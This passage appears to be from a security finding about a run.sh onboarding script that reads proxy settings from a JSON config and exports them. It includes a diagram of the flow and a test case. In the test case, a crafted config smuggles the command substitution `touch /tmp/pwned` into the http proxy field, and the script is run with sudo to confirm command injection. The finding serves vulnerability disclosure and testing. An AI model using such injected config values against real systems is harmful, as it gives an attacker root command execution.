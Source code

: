     ```mermaid
    graph LR
        A[run.sh starts] --> B{Check if config file path provided};
        B -- Yes --> C{grep proxy details from config file};
        C --> D{Extract http_proxy, https_proxy, no_proxy using grep -Po};
        D --> E{export http_proxy=$http_p};
        E --> F{export https_proxy=$https_p};
        F --> G{export no_proxy=$noproxy};
        G --> H[Continue script execution];
        B -- No --> H;
    ```

*   **Security Test Case:**
    1. Create a malicious `config_avs.json` file with the following content:
       ```json
       {
         "managementProxyDetails": {
           "http": "`touch /tmp/pwned`",
           "https": "https://normal-proxy.com",
           "noProxy": "localhost,127.0.0.1"
         },
         "subscriptionId": "YOUR_SUBSCRIPTION_ID",
         "resourceGroup": "YOUR_RESOURCE_GROUP",
         "privateCloud": "YOUR_PRIVATE_CLOUD",
         "location": "westus2",
         "vCenterFQDN": "...",
         "vCenterUserName": "...",
         "vCenterPassword": "...",
         "staticIpNetworkDetails": {
           "networkForApplianceVM": "arc-segment-444",
           "networkCIDRForApplianceVM": "192.168.10.0/28"
         }
       }
       ```
    2. Save this file as `malicious_config_avs.json`.
    3. Execute the `run.sh` script with the malicious configuration file:
       ```bash
       sudo chmod +x run.sh
       sudo bash run.sh onboard malicious_config_avs.json
       ```
    4. After the script execution, check if the file `/tmp/pwned` exists.
    5. If the file `/tmp/pwned` exists, it confirms that the command injection was successful, as the `touch /tmp/pwned` command injected through the `http` proxy setting was executed.